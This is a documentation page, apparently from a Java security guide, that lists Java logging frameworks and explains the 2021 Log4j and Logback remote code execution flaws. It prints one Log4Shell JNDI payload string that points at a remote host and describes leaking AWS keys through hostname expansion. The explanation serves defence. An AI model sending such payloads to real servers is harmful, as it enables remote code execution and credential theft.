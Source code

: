 ```yaml
---
title: Logging
sidebar_position: 2
---
```


Java developers have a large number of choices for logging:

 * System Logger - introduced in Java 9 (2017), an API that acts as a facade to other loggers.
 * JUL - Introduced in Java 1.4 (2002), the Java Util Logger, is generally available.
 * Log4j
    * Log4j2 - Released in 2014, a fast logging framework.
    * Log4j - Released in 2001 and end-of-lifed in 2015.
 * Logback
    * Logback - Released 2006, intended as a successor of log4j.
    * SLF4J - Released 2005, a simple logging facade. This does not provide a logger, it provides a single API that can consolidate the other loggers.
 * Apache Commong-Logging - Released in 2002 and end-of-lifed in 2014.
 * TinyLogger - Released in 2012, a fast logging framework.

Many Java applications include more that one logger. In a [2020 study by York University](https://nemo9cby.github.io/resources/pubs/icse2020_chen.pdf), researchers identified that Hadoop used six loggers and IntelliJ used twelve.

## Logging Vulnerabilities

The main type of vulnerability that impacts logs it [Log Injection](../../vulnerabilities/log-injection.mdx).

In 2021, the logging framework Log4j, [Log4J2](https://nvd.nist.gov/vuln/detail/CVE-2021-45046), and [Logback](https://cve.report/CVE-2021-42550) were vulnerable to [Remote Code Execution](../../vulnerabilities/remote-code-execution.md), allowing attackers to take control over these servers when they logged user input. The vulnerable versions of log4j spanned from 2014 to 2021. Attackers could craft input that caused the application to load and execute remote classes over JNDI.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```

When a server with a vulnerable Log4j writes that String to a log, it loads the remote code from the host and executes it. Attackers took advantage of this in two ways:

 1. Compromising the server to run code and steal data.
 2. Expanding environment variables in the URL's hostname, to read sensitive data like AWS keys.